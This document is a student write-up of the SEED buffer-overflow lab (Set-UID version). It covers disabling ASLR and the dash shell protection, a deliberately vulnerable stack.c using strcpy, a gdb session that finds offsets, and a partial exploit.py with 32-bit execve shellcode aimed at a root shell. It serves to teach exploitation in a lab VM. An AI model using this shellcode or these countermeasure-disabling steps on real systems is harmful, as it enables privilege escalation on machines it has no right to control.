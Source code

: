 # Lab 7: Buffer Overflow Attack Lab (Set-UID Version)

Objective: develop a scheme to exploit the vulnerability and finally gain the root privilege. In addition to the attacks, students will be guided to walk through several protection schemes that have been implemented in the operating system to counter against buffer-overflow attacks. Students need to evaluate whether the schemes work or not and explain why.

## Turning Off Countermeasures

Modern operating systems have implemented several security mechanisms to make the buffer-overflow attack difficult. To simplify our attacks, we need to disable them first. Later on, we will enable them and see whether our attack can still be successful or not.

### Address Space Randomization

Ubuntu and several other Linux-based systems uses address space randomization to randomize the starting address of heap and stack. This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks. This feature can be disabled using the following command:
```bash
sudo sysctl -w kernel.randomize_va_space=0
```

### Configuring /bin/sh

In the recent versions of Ubuntu OS, the `/bin/sh` symbolic link points to the `/bin/dash` shell. The dash program, as well as bash, has implemented a security countermeasure that prevents itself from being executed in a Set-UID process. Basically, if they detect that they are executed in a Set-UID process, they will immediately change the effective user ID to the process’s real user ID, essentially dropping the privilege.

We have installed a shell program called `zsh` in our Ubuntu 20.04 VM. The following command can be used to link `/bin/sh` to `zsh`:
```bash
sudo ln -sf /bin/zsh /bin/sh
 ```

### StackGuard and Non-Executable Stack. 

These are two additional countermeasures implemented in the system. They can be turned off during the compilation

![offcounter](/Lab7/countermeasures/off_counter.png)

## Exercise 1: Getting Familiar with Shellcode

The ultimate goal of buffer-overflow attacks is to inject malicious code into the target program, so the code can be executed using the target program’s privilege. Shellcode is widely used in most code-injection attacks.

To demonstrate how this works, we have the `/Lab7/exercise1/call_shellcode.c` file, which, together with `/Lab7/exercise1/Makefile`, creates two copies of shellcode, one is 32-bit and the other is 64-bit.

By running `make`, we are using:

```bash
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
```
![make](/Lab7/exercise1/img/1.png)

We can see in the image that both binaries run without any problem despite working on a 64-bit VM. Modern Linux OS includes compatibility layers (such as the ia32-libs package) that allow them to run 32-bit binaries. This is accomplished through the use of system libraries that can handle the translation from 32-bit to 64-bit system calls.


If we make `/Lab7/exercise1/a32.out` and `/Lab7/exercise1/a64.out` root-owned Set-UID programs, we can obtain a root shell.

![make](/Lab7/exercise1/img/2.png)


## Exercise 2: Understanding the Vulnerable Program

The vulnerable program used in this lab is `/Lab7/exercise2/stack.c`. This program has a buffer-overflow vulnerability, and your job is to exploit this vulnerability and gain the root privilege. 

```c
include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("==== Returned Properly ====\n");
    return 1;
}
```

By running `make`, we obtain:
![make](/Lab7/exercise2/img/1.png)

- `stack-LX`: 32-bit or 64 bit vulnerable programs for diferents levels (X).
- `stack-X-dbg`: 32-bit or 64 bit vulnerable program with debugging information added to the  for diferents levels (X).

## Exercise 3: Launching Attack on 32-bit Program (Level 1)


### Investigation

To exploit the buffer-overflow vulnerability in the target program, the most important thing to know is the distance between the buffer’s starting position and the place where the return-address is stored. We will use a debugging method to find it out. Since we have the source code of the target program, we can compile it with the debugging flag turned on. That will make it more convenient to debug.

```bash
[04/06/24]seed@VM:~/.../Lab7$ gdb stack-L1-dbg 
gdb-peda$ b bof
Breakpoint 1 at 0x80484c1: file stack.c, line 18.
gdb-peda$ run
...
Breakpoint 1, bof (str=0xbfffeb57 "\bB\003") at stack.c:18
18	    strcpy(buffer, str); 
...
gdb-peda$ p/x &buffer
$1 = 0xbfffeacc
gdb-peda$ p/x $ebp
$2 = 0xbfffeb38
```

Now we know that:
- buffer = 0xbfffeacc
- ebp = 0xbfffeb38
- L = 4
- offset = ebp - buffer + L
- ret = buffer + offset + 100

![attacks](/Lab7/exercise3/img/1.png)


### Launching Attacks

To exploit the buffer-overflow vulnerability in the target program, we need to prepare a payload and save it inside `/Lab7/exercise3/badfile`. 

We will utilize the `/Lab7/exercise3/exploit.py` program for this purpose. We will start with the base Python script provided in the lab setup and make the following modifications:



```python
# Place the shellcode towards the end of the buffer
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# In this example, we're assuming a 32-bit architecture.
L = 4

# Calculate the offset to place the return address right after the buffer (ebp - buffer + L)
offset = 0xbfffeb38 - 0xbfffeacc + L # The size of the buffer in the vulnerable program
# Return address (buffer + offset + buffersize).
ret = 0xbfffeacc + offset + 100 
```

Finally running `/Lab7/exercise3/stack-L1` (the set-UID program) will give us the root shell  due to copying excess data from the `badfile` which causes buffer overflow. By doing so, we can redirect the program's execution flow to a location controlled by `badfile`, 


![attacks](/Lab7/exercise3/img/2.png)